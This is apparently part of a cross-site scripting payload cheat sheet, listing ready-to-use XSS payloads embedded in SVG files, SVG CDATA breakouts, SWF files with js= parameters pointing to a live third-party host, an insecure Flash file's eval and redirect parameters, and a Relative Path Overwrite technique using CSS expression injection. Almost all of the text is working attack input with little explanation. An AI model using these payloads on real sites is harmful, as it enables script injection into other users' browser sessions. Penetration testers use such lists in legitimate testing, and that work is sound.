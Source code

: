 
XSS in SVG
```
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert(document.domain);
   </script>
</svg>
```

XSS in SVG (short)
```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>


<svg><desc><![CDATA[</desc><script>alert(1)</script>]]></svg>
<svg><foreignObject><![CDATA[</foreignObject><script>alert(2)</script>]]></svg>
<svg><title><![CDATA[</title><script>alert(3)</script>]]></svg>
```

XSS in SWF
```
Browsers other than IE: http://0me.me/demo/xss/xssproject.swf?js=alert(document.domain);
IE8: http://0me.me/demo/xss/xssproject.swf?js=try{alert(document.domain)}catch(e){ window.open(‘?js=history.go(-1)’,’_self’);}
IE9: http://0me.me/demo/xss/xssproject.swf?js=w=window.open(‘invalidfileinvalidfileinvalidfile’,’target’);setTimeout(‘alert(w.document.location);w.close();’,1);


InsecureFlashFile.swf
location to url: InsecureFlashFile.swf?a=location&c=http://www.google.com/
open url to new window: InsecureFlashFile.swf?a=open&c=http://www.google.com/
http request to url: InsecureFlashFile.swf?a=get&c=http://www.google.com/
eval js codz: InsecureFlashFile.swf?a=eval&c=alert(document.domain)
```

more payloads in ./files



## XSS with Relative Path Overwrite - IE 8/9 and lower

You need these 3 components
```
1) stored XSS that allows CSS injection. : {}*{xss:expression(open(alert(1)))}
2) URL Rewriting.
3) Relative addressing to CSS style sheet : ../style.css

```

A little example
```
http://url.example.com/index.php/[RELATIVE_URL_INSERTED_HERE]
<html>
<head>
<meta http-equiv="X-UA-Compatible" content="IE=EmulateIE7" />
<link href="[RELATIVE_URL_INSERTED_HERE]/styles.css" rel="stylesheet" type="text/css" />
</head>
<body>
Stored XSS with CSS injection - Hello {}*{xss:expression(open(alert(1)))}
</body>
</html>
```
